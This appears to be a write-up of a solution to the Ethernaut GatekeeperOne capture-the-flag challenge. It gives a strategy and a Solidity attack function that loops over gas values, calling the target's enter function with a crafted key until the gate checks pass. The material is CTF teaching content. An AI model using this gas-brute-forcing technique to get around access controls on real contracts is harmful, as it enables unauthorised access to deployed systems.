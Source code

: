 # 13_GatekeeperOne Project

## Challenge: Ethernaut CTF Level 13 - GatekeeperOne

- **Victory condition**: Pass through GatekeeperOne
- **Knowledge required**: Modifiers, gasleft(), import hardhat/console.log, precise gas limit calculation, contract loops

## Solution Strategy:

1. Break down GatekeeperOne into part1, part2, part3, and use hardhat/console.log to precisely calculate gas and keys
2. Even for contracts already deployed on testnets where hardhat/console.log cannot be used, you can still add public variables and use getter functions in scripts to investigate and debug

## Solidity:

```solidity
function attack(uint64 gasToUse) public {
    // Call the enter function of GatekeeperOne with the gateKey
    // gas offset usually comes in around 210, give a buffer of 60 on each side
    for (uint256 i = 0; i < 500; i++){
        (result, ) = gatekeeperOneAddress.call{gas: gasToUse + i}(abi.encodeWithSignature("enter(bytes8)", gateKey));
        if (result) {
            // The magic number is 256
            gasOffset = i;
            result = true;
            break;
        } else {
            looptime += 1;
            continue;
        }
    }
    // require(success, "Attack failed");
}    
```

1. gatekeeperOneAddress.call does not automatically revert the transaction when it fails. The program will continue executing